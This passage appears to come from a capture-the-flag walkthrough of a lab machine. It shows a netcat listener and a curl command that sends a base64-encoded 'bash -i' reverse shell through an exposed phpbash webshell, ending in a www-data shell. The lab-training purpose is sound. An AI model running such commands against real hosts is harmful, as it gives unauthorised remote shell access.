 Luckily, file listing is enabled. We see that the `phpbash` files are present,
and haven't been renamed! Let's browse to any of them.

![Apache phpbash webshell](apache-phpbash-webshell.png)

Here it is!

## Foothold (Webshell)

Webshells are great, but I prefer reverse shells.

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Now let's use our webshell to execute our reverse shell payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.68/dev/phpbash.php" -X "POST" --data-urlencode "cmd=/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.68] 39624
<SNIP>
www-data@bashed:/var/www/html/dev$
```
